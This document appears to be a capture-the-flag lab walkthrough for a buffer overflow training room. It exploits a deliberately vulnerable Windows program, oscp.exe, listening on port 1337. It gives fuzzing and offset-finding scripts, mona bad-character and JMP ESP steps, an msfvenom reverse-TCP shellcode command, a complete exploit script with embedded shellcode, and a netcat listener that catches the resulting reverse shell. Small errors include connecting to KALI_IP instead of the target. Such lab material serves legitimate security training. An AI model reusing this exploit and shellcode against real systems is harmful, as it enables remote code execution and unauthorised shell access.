


# Buffer overflow 1

1. Start the AttackBox or run from a Kali connected to THM over VPN
2. Start the Machine and note the IP address. Remote desktop from your Linux virtual machine or the AttackBox to 
the IP address of the Machine using Remmina. 

```text
xfreerdp /u:admin /p:password /cert:ignore /v:MACHINE_IP /workarea
```

## Setting up Immunity

|  |
|:--:|
| Immunity setup |

3. In the Machine, right-click the `Immunity Debugger` icon on the Desktop and choose `Run as administrator`. 
4. When Immunity loads, , configure mona (bottom of Immunity):

```text
!mona config -set workingfolder c:\mona\%p
```

5. Click the open file icon, or choose `File -> Open`. Navigate to the vulnerable-apps folder 
on the admin user's desktop, and then the `oscp` folder. Select the `oscp.exe` binary and open it.
6. The binary will open in a "paused" state, so click the red play icon or choose `Debug -> Run`. 
7. In a terminal window, the `oscp.exe` binary should be running, and tells us that it is listening on port `1337`.
8. On the Kali box or Attack box, connect to port `1337` on `MACHINE` using netcat:

```text
nc MACHINE_IP 1337
```

9. Type "HELP" and press Enter. Note that there are 10 different OVERFLOW commands numbered 1 - 10. Type 
"OVERFLOW1 test" and press enter. The response should be "OVERFLOW1 COMPLETE". Terminate the connection.

## Fuzzing the program

To fuzz the `ospc.exe` program to see if it is vulnerable, send it a long string of characters. This long string of 
characters will eventually exceed the memory buffer causing the buffer overflow. Use the script below and adapt it 
with the IP address of the host and the overflow to target. 

```text
#!/usr/bin/env python3

import socket, time, sys

ip = "MACHINE_IP"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

Make sure `ospc.exe` is running in Immunity Debugger, then launch the fuzzing script. 
If the fuzzer crashes the server with one of the strings, the fuzzer should exit with an error message. Make a note 
of the largest number of bytes that were sent.

## Creating a cyclic pattern

Finding the `EIP` offset requires creating a pattern with the length that was required to crash the program. For 
example, by using Metasploit and adding 400 bytes to the 2000 that crashed the server:

```text
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2400
```

Edit the python payload below and add the cyclic pattern to the payload variable:

```text
import socket

ip = "10.10.129.182"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

Name it `exploit.py` and launch it.

```text
python3 exploit.py
```

After the Python exploit crashed the script, go to the Immunity debugger and run the `mona` command to find the EIP 
offset:

```text
!mona findmsp -distance 2000
```

This should open the Log window but if it doesn’t then open it manually and look for the following entry in the output.

```text
EIP contains normal pattern : ... (offset 1978)
```

Update the `exploit.py` script and set the offset variable to this value (was previously set to 0). Set the payload 
variable to an empty string again. Set the `retn` variable to `BBBB`.

Restart `oscp.exe` in Immunity and run the modified `exploit.py` script again. The `EIP` register should now be 
overwritten with the 4 B's (e.g. `42424242`).

## Finding bad characters

Bad characters are unwanted characters that break the shellcode. 
For Buffer Overflows to be successful we have to make sure payloads do not contain any bad characters (badchars). 
Badchars such as null bytes (`\x00`) could cause a payload to crash the program rather than executing the code 
specified.

```text
!mona bytearray -b "\x00"
```

To use Mona to create a Byte Array to compare the payload to, create a Byte Array which will exclude all the badchars 
found, starting with the Null Byte. To create a byte array to use as a payload:

```text
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```

Name it, run it, and paste the results as payload in the `exploit.py` script.

Reopen and run the vulnerable `oscp.exe` application in Immunity Debugger. Then run the exploit script. 

When the script has completed, go back to the Immunity Debugger and look for the `ESP` register in the `CPU` window.

Right-click the `ESP` register, copy the address to the clipboard, then run the following mona command to compare it 
to the Byte Array that Mono created earlier:

```text
!mona compare -f C:\mona\oscp\bytearray.bin -a 01AFFA30
```

This produces a window containing all the bad characters that need to eliminated from our script. 

Note that some of these characters may not be bad characters. For example `\x07` could be bleeding into `\x08` and 
making it look bad. The process must be repeated for each "bad character". 

### \x00

1. Create byte array

```text
!mona bytearray -b "\x00"
```

2. Remove byte from payload string
3. Run 
4. Get ESP address 
5. Compare the hex dump with characters sent

```text
!mona compare -f C:\mona\oscp\bytearray.bin -a 018BFA30
```

### \x00\x07

1. Create byte array

```text
!mona bytearray -b "\x00\x07"
```

2. Remove `\x07` byte from payload string
3. Run
4. Get ESP address
5. Compare the hex dump with characters sent

```text
!mona compare -f C:\mona\oscp\bytearray.bin -a 019AFA30
```

### \x00\x07\x2e

1. Create byte array

```text
!mona bytearray -b "\x00\x07\x2e"
```

2. Remove `\x2e` byte from payload string
3. Run
4. Get ESP address
5. Compare the hex dump with characters sent

```text
!mona compare -f C:\mona\oscp\bytearray.bin -a 019AFA30
```

Keep rinsing until the comparison results status returns `Unmodified`. This indicates that no more badchars are 
present. The results window now looks like:

|  |
|:--:|
| No badchars left |

## Finding the jump point

When an access violation occurs, the `ESP` register points to memory which contains the data which was sent to the 
application. JMP ESP Instruction is used to redirect the code execution to that location. To find the JMP ESP, 
use a module of mona with `–cpb` option and all the bad characters found earlier, to prevent mona returning a memory 
pointer with badchars.

With all badchars identified, to use Mona to find a jump point in the application:

```text
!mona jmp -r esp -cpb "\x00\x07\x2e\xa0"
```

## Generate payload

Use msfvenom to create the payload:

```text
msfvenom -p windows/shell_reverse_tcp LHOST=KALI_IP LPORT=4444 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f c
```

## Endianness

There are two ways by which a computer stores multibyte data types like int and float, these two types are known 
as Little Endian and Big Endian. `x86` is known as Little Endian architecture. In this architecture, the last byte 
of the binary is stored first. In Big Endian, the exact opposite happens: The first byte of the binary is stored 
first. When working with `x86` architecture the JMP ESP address must be converted into Little Endian format.

When adding the return address, reverse the JMP address.

## NOP-sled

A NOP-sled (No Operation sled) is a sequence of no-operation instructions which is responsible for sliding the CPU’s execution flow to 
the next memory address. Prepending `nops` before the shellcode, it does not matter where the buffer is located. 
When the return pointer hits the NOP-sled then as the name suggests it is going to slide the return address until it 
reaches the beginning of the shellcode.

NOP values are different for different CPUs. 

To create ssome space in memory for the payload to unpack itself, set the padding variable to a string of `16` or more 
`nops` (`"\x90"`) bytes:

```text
padding = "\x90" * 16
```

## Exploit

With the correct prefix, offset, return address, padding, and payload set, exploit the buffer overflow to get a 
reverse shell.

```text
import socket
import sys
import time


print("[+]  Shell at 4444...\n")

buff = "A" * 1978
eip = "\xaf\x11\x50\x62" #0x625011AF JMP ESP pointer address

nops = "\x90" * 20

shellcode =  b""
shellcode += b"\xba\xad\x13\xdd\x9f\xda\xcd\xd9\x74\x24\xf4"
shellcode += b"\x58\x33\xc9\xb1\x52\x83\xe8\xfc\x31\x50\x0e"
shellcode += b"\x03\xfd\x1d\x3f\x6a\x01\xc9\x3d\x95\xf9\x0a"
shellcode += b"\x22\x1f\x1c\x3b\x62\x7b\x55\x6c\x52\x0f\x3b"
shellcode += b"\x81\x19\x5d\xaf\x12\x6f\x4a\xc0\x93\xda\xac"
shellcode += b"\xef\x24\x76\x8c\x6e\xa7\x85\xc1\x50\x96\x45"
shellcode += b"\x14\x91\xdf\xb8\xd5\xc3\x88\xb7\x48\xf3\xbd"
shellcode += b"\x82\x50\x78\x8d\x03\xd1\x9d\x46\x25\xf0\x30"
shellcode += b"\xdc\x7c\xd2\xb3\x31\xf5\x5b\xab\x56\x30\x15"
shellcode += b"\x40\xac\xce\xa4\x80\xfc\x2f\x0a\xed\x30\xc2"
shellcode += b"\x52\x2a\xf6\x3d\x21\x42\x04\xc3\x32\x91\x76"
shellcode += b"\x1f\xb6\x01\xd0\xd4\x60\xed\xe0\x39\xf6\x66"
shellcode += b"\xee\xf6\x7c\x20\xf3\x09\x50\x5b\x0f\x81\x57"
shellcode += b"\x8b\x99\xd1\x73\x0f\xc1\x82\x1a\x16\xaf\x65"
shellcode += b"\x22\x48\x10\xd9\x86\x03\xbd\x0e\xbb\x4e\xaa"
shellcode += b"\xe3\xf6\x70\x2a\x6c\x80\x03\x18\x33\x3a\x8b"
shellcode += b"\x10\xbc\xe4\x4c\x56\x97\x51\xc2\xa9\x18\xa2"
shellcode += b"\xcb\x6d\x4c\xf2\x63\x47\xed\x99\x73\x68\x38"
shellcode += b"\x0d\x23\xc6\x93\xee\x93\xa6\x43\x87\xf9\x28"
shellcode += b"\xbb\xb7\x02\xe3\xd4\x52\xf9\x64\xd1\xb3\x0f"
shellcode += b"\xf9\x8d\xb1\x0f\x10\x12\x3f\xe9\x78\xba\x69"
shellcode += b"\xa2\x14\x23\x30\x38\x84\xac\xee\x45\x86\x27"
shellcode += b"\x1d\xba\x49\xc0\x68\xa8\x3e\x20\x27\x92\xe9"
shellcode += b"\x3f\x9d\xba\x76\xad\x7a\x3a\xf0\xce\xd4\x6d"
shellcode += b"\x55\x20\x2d\xfb\x4b\x1b\x87\x19\x96\xfd\xe0"
shellcode += b"\x99\x4d\x3e\xee\x20\x03\x7a\xd4\x32\xdd\x83"
shellcode += b"\x50\x66\xb1\xd5\x0e\xd0\x77\x8c\xe0\x8a\x21"
shellcode += b"\x63\xab\x5a\xb7\x4f\x6c\x1c\xb8\x85\x1a\xc0"
shellcode += b"\x09\x70\x5b\xff\xa6\x14\x6b\x78\xdb\x84\x94"
shellcode += b"\x53\x5f\xa4\x76\x71\xaa\x4d\x2f\x10\x17\x10"
shellcode += b"\xd0\xcf\x54\x2d\x53\xe5\x24\xca\x4b\x8c\x21"
shellcode += b"\x96\xcb\x7d\x58\x87\xb9\x81\xcf\xa8\xeb"

payload = buff + eip + nops + shellcode

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# Connect to the Application
s.connect(('KALI_IP', 1337))
s.recv(1024)


# PASS
s.send('OVERFLOW1 ' + payload + '\r\n')
s.send('EXIT\r\n')
s.close()

print("\nExploited.\n")
```

Start a netcat listener on the Kali box using the LPORT specified in the `msfvenom` command (`4444`).

```text
sudo nc -lvnp 4444
```

Restart `oscp.exe` in Immunity and run the modified `exploit.py` script again. The netcat listener should catch a 
reverse shell.


